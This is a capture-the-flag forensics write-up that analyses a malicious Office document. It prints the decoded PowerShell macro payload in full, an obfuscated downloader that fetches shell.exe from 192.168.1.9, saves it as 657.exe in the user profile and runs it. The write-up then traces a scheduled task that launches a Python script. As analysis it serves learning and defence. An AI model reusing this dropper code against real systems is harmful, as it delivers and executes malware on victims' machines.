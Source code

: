 I opened in a VM and started [CMD WATCHER](https://www.kahusecurity.com/posts/cmd_watcher_and_maldocs.html) and Enabled the editing and received this: 

![](https://i.imgur.com/JWeM0xM.jpg)

decoding it and we get:

```
$Managerrmo='Venezuelahwf';
$capacitoripk = '657';
$depositkjo='Internaljiw';
$Reverseengineeredifq=$env:userprofile+'\'+$capacitoripk+'.exe';
$Ovalnfc='Handcrafted_Plastic_Pantsrod';
$applicationpmi=&('ne'+'w-ob'+'ject') NEt.WEBCLIenT;
$Practical_Wooden_Gloveszih='httasdp://asd192asd.asd168asd.1asd.9asd/shasdellasd.easdxe'."Replace"("asd","");
$violetcuz='hackingtho';
foreach($Arizonavsf in $Practical_Wooden_Gloveszih){try{$applicationpmi."DO`Wnl`oadfIle"($Arizonavsf, $Reverseengineeredifq);
$Yemennoo='Borderswbi';
[System.Environment]::SetEnvironmentVariable('chrome.exe',$env:userprofile+'\'+$capacitoripk+'.exe')If ((&('Get-'+'It'+'em') $Reverseengineeredifq)."LEn`GTH" -ge 21057) {[Diagnostics.Process]::"S`TaRT"($Reverseengineeredifq);
$Bolivar_Fuertenor='SCSImlh';
break;
$Regionalbpb='Auto_Loan_Accounthzi'}}catch{}}$Liaisonqvc='bestofbreedqit
```

Looking at the code: 

- ``httasdp://asd192asdasd168asd1asd9asd/shasdellasdeasdxe'"Replace"("asd","");`` which is: ``http://192.168.1.9/shell.exe`` so the IP is **192.168.1.9** and The file will be downloaded under %userprofile%\657.exe

- **IPSourceOfTheDownloadedFile: 192.168.1.9**

- **NewMaliciousFile is 657.exe**

- Also the script is setting env variable chrome.exe value to 657.exe

Now The Last Part is left **WhatTriggeredTheMaliciousFile**

Okay going back to **Recent Documents** there is **Checking The Binary.lnk** which is under C:\Windows\System32\Tasks\Checking the Binary

Okay so this is from Task Scheduler.

Checking it -> C:\Windows\System32\Tasks\Checking the Binary

![](https://i.imgur.com/NgTmSj2.jpg)

there is:

```
<Exec>
      <Command>C:\Users\FwordCTF\AppData\Local\Microsoft\WindowsApps\python.exe</Command>
      <Arguments>chromebot.py</Arguments>
      <WorkingDirectory>C:\Program Files\Google\Chrome\Application\</WorkingDirectory>
</Exec>
 ```
